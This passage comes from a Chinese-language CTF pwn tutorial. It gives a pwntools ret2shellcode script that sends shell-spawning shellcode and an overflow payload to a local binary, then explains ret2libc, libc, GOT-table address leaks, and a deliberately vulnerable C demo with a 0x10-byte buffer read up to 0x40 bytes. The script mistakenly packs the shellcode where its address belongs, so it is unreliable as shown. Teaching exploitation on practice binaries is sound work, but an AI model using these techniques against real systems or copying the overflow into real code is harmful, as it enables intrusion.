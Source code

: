 脚本：

```bash
from pwn import*

io = process('./text')
shellcode_adr=0x404080
shellcode=asm(shellcraft.sh())
payload = b'a'*(0x10+8)+p64(shellcode)
io.sendline(shellcode)
io.sendline(payload)
io.interactive()
```

## 4.ret2libc

### libc？

libc.so 是 Linux 系统中的 C 标准库动态链接库（shared library）。它包含了 C 语言程序常用的函数和符号，可以在程序运行时动态加载到内存中，并被程序调用。

在动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应程序中调用了的函数。所以 ret2libc 的含义便是返回调用 libc 库中的函数

### 调用？

当这个程序中没有调用我们想要劫持调用函数怎么办？那么我们就需要想方法获得函数在 libc 动态链接库中的真实地址了

引入概念：程序 GOT 表

GOT 表（Global Offset Table）是一种数据结构，用于存储程序中使用的全局变量或者函数的地址。在程序运行时，当程序需要访问一个全局变量或者调用一个全局函数时，它会先在 GOT 表中查找相应的地址，然后使用这个地址进行访问或者调用。

GOT 表通常用于实现动态链接（dynamic linking），在动态链接的情况下，程序在运行时会动态加载共享库（shared library），而这些共享库中的全局变量和函数的地址是未知的。因此，程序需要通过 GOT 表来获取这些全局变量和函数的地址，以便正确地访问或者调用它们。

同时还有一点：函数在 libc 动态链接库中的相对地址是固定的，也就是说，如果我们能够将一个函数的 got 表对应的地址打印出来，我们就能根据各个函数的相对地址来找到所有 libc 库函数的地址

那么我们的思路就是这样

泄露某个程序中调用的函数的真实地址—libc 版本—>获得 libc 基地址——>获得所有函数地址

### 泄露？

当程序中有输出函数时，我们就可以通过在返回地址构造输出函数以及控制函数参数的方式是函数打印 got 表内容然后再末尾接上主函数或者发生栈溢出的函数地址再次构造一次栈溢出，此时我们不仅打印出了函数的真实地址，通过 libc 版本获得 libc 基地址和所有函数地址，而且还能再执行一次栈溢出，此时我们就能通过控制参数构造危险后门函数来获得权限了

demo

```bash
#include<stdio.h>
#include<stdlib.h>

void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
int main()
{
init();
puts("ret2libc");
char b[0x10];
read(0,b,0x40);
    return 0;
}
```
